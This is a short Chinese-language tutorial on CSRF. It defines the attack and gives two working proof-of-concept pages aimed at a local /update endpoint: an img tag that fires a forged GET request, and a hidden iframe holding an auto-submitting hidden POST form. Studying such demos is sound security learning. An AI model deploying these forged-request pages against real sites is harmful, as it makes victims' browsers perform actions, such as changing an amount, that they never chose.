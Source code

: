# CSRF 攻击

## 1. 什么是 CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，来执行某项操作。

## 2. CSRF 分类

### 1.GET 类型的 CSRF

可以完美避过跨域问题

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_1</title>
  </head>
  <body>
    <img src="http://localhost.meetsocial.cn:8888/update?amount=1111" />
  </body>
</html>
```

### 2. POST 类型的跨域问题

使用 iframe 页面不会跳转, 更加隐藏

```html
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_2</title>
  </head>
  <body>
    <iframe src="csrf_iframe.html"></iframe>
  </body>
</html>
```

csrf_iframe.html:

```html
<html>
  <head>
    <meta charset="utf-8" />
    <title>csrf_2</title>
  </head>
  <body>
    <form method="POST" action="http://localhost.meetsocial.cn:8888/update">
      <input type="hidden" name="amount" value="2222" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

